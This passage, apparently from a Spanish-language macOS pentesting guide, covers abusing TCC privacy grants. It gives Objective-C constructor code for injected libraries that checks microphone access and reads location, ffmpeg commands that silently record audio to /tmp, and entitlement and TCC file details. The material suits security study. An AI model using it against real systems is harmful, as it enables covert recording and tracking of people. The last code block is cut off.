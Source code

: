 ```objectivec
AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeAudio];
if (status == AVAuthorizationStatusAuthorized) {
NSLog(@"[+] Access to microphone granted.");
return YES;
} else {
NSLog(@"[-] Access to microphone denied.");
return NO;
}
}
@end
__attribute__((constructor))
static void telegram(int argc, const char **argv) {
[MicrophoneAccessChecker hasMicrophoneAccess];
}
```
{% endtab %}

{% tab title="Shell" %}
Graba un audio de 5s y guárdalo en `/tmp/recording.wav`
```bash
# Check the microphones
ffmpeg -f avfoundation -list_devices true -i ""
# Use microphone from index 1 from the previous list to record
ffmpeg -f avfoundation -i ":1" -t 5 /tmp/recording.wav
```
### Ubicación

{% hint style="success" %}
Para que una aplicación obtenga la ubicación, los **Servicios de Localización** (de Privacidad y Seguridad) **deben estar activados,** de lo contrario, no podrá acceder a ella.
{% endhint %}

* **Entitlement**: `com.apple.security.personal-information.location`
* **TCC**: Otorgado en `/var/db/locationd/clients.plist`

{% tabs %}
{% tab title="ObjectiveC" %}
Escribe la ubicación en `/tmp/logs.txt`
```objectivec
#include <syslog.h>
#include <stdio.h>
#import <Foundation/Foundation.h>
#import <CoreLocation/CoreLocation.h>

@interface LocationManagerDelegate : NSObject <CLLocationManagerDelegate>
@end

@implementation LocationManagerDelegate

- (void)locationManager:(CLLocationManager *)manager didUpdateLocations:(NSArray<CLLocation *> *)locations {
CLLocation *location = [locations lastObject];
NSLog(@"Current location: %@", location);
exit(0); // Exit the program after receiving the first location update
}

- (void)locationManager:(CLLocationManager *)manager didFailWithError:(NSError *)error {
NSLog(@"Error getting location: %@", error);
exit(1); // Exit the program on error
}

@end

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
```